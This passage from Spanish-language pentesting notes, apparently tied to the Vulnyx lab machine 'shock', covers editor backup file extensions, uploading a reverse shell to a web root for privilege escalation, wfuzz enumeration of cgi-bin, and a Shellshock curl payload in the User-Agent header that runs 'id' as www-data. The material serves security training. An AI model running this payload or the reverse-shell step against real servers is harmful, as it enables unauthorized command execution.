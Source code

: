 .tmp

.swp -> Vim

.asd  -> Microsoft word

.bak -> backups

.~      -> puede ser al inicio o final del nombre del archivo para crear copias de seguridad.

-------------------------------------------------------------------------------

## 76.- A veces cuando tenemos conexión por ssh y no podemos escalar privilegios, pero tenemos un servidor web corriendo en la víctima, podemos subir un reverse shell en /var/www/html a veces el usuario www-data nos permite escalar privilegios

-------------------------------------------------------------------------------

## 77.- Si un archivo se está editando y no se cierra el editor de manera inesperada, las extensiones que se guardan el archivo no editado completamente depende del editor que se estaba utilizando:

nano -> .swp, .save, archivo~
vim / neovim -> .swp, .swo
gedit -> archivo~
emacs  -> #archivo#, archivo~
mousepad (XFCE) -> archivo~

-------------------------------------------------------------------------------

## 78.- Si tenemos acceso a la carpeta cgi-bin

referencia máquina shock - vulnyx

cgi-bni es una carpeta utilizada para alojar scripts que interactuarán con el navegador web, en esta carpeta se alojan archivos como .sh, .cgi

hacemos una búsqueda

wfuzz -c -t 200 --hc=404 --hw=1 -w /usr/share/seclists/Discovery/Web-Content/common.txt -z list,sh-cgi "http://192.168.1.14/cgi-bin/FUZZ.FUZ2Z"

si encontramos un archivo como shell - sh con estado 500

me permite ejecutar comandos:

curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://IP-VICTIMA/cgi-bin/shell.sh


resultado:

uid=33(www-data) gid=33(www-data) groups=33(www-data)

ejecutamos para acceder a la máquina
